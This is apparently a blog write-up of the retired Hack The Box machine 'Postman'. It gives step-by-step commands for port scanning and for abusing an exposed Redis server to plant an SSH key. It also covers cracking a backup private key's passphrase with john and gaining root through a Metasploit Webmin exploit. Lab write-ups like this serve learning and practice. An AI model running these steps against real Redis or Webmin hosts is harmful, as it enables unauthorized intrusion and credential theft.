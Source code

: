 ```yaml
---
layout: default
---
```

## Postman
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b.png)

Postman was a really easy machine loaded up with a couple of quick CVEs that exploited Redis for user and Webin for root. I’ve already added the machine to my /etc/hosts file as postman.htb. As always, I started with ```nmap```.

```bash
nmap -T5 -A -p 1-65535 postman.htb -n -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/postman/nmap.JPG)

nmap showed that SSH, HTTP, Redis, and Webmin MiniServ were available on this machine. I did a quick glance at the website. 

![](https://yaboygmoney.github.io/htb/images/postman/website.JPG)

Nothing much was going on with the main page in the source. I ran gobuster and found some directories that sounded interesting but didn’t provide anything. That was expected, as the other services looked a little more interesting.

Checking out Redis version 4.0.9, I was quickly pointed to an [RCE exploit](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). I checked for remote command execution vulnerability of the remote host with telnet first.

```bash
telnet postman.htb 6379
ECHO "Vulnerable"
```

![](https://yaboygmoney.github.io/htb/images/postman/vulncheck.JPG)

The system echoing back is a good sign. To take advantage of this exploit, I first needed to get redis tools. 

```bash 
apt-get install redis-tools
```

From there, it’s as easy as following the [CVE](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html).

```bash
ssh-keygen -t rsa -C “redis@postman.htb”
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
redis-cli -h postman.htb flushall
cat foo.txt | redis-cli -h postman.htb -x set crackit
redis-cli -h postman.htb
config get dir
config set dbfilename “authorized_keys”
save
```

![](https://yaboygmoney.github.io/htb/images/postman/sshprep.JPG)

Now I’m set to use the new key I just generated.

```bash
ssh -i id_rsa redis@postman.htb
```

![](https://yaboygmoney.github.io/htb/images/postman/redisLogin.JPG)

Successfully logged in, I can see that there’s only a single user’s home directory present: Matt. I half-heartedly try to cat the user flag and, as expected, am denied.

![](https://yaboygmoney.github.io/htb/images/postman/denied.JPG)

During enumeration, I found a backup file “id_rsa.bak”. A quick way to do this is to run

```bash
locate *.bak
```

![](https://yaboygmoney.github.io/htb/images/postman/locate.JPG)

An RSA private key. I copied the contents of that file back into gedit and saved it. Then, I ran it against the tool ssh2john. This tool converts an SSH key to a hash that John can crack.

```bash
/usr/share/john/ssh2john.py mattkey > mattkey.hash
```

After I’ve converted the key to a hash, I can run john against it to carve out the password.

```bash
john –wordlist=/usr/share/wordlists/rockyou.txt mattkey.hash
```

![](https://yaboygmoney.github.io/htb/images/postman/cracked.JPG)

I’ve now got a full-fledged set of creds: Matt:computer2008. Now that I have Matt’s password, I can ```su``` to Matt and get the user flag from the redis ssh session.

![](https://yaboygmoney.github.io/htb/images/postman/user.JPG)

Looking back at the nmap results, Webmin MiniServ 1.910 is served up on port 10000. There is an ![exploit]( https://www.exploit-db.com/exploits/46984) created for this version for any authenticated user to execute the package updates module as root. I downloaded the exploit and loaded it into my Metasploit exploits.

```bash
cd ~/.msf4/modules/exploits/linux
wget https://www.exploit-db.com/exploits/46984
msfconsole
```
Then I queue the exploit.

![](https://yaboygmoney.github.io/htb/images/postman/payload1.JPG)

I tried sending that configuration and got an error, no session. Then I remembered that the Webmin server was running on HTTPS and set SSL to True in Metasploit and fired again.

![](https://yaboygmoney.github.io/htb/images/postman/rooted.JPG)

Success. The CVE is exploited.

Until next time.

#### Keep trying
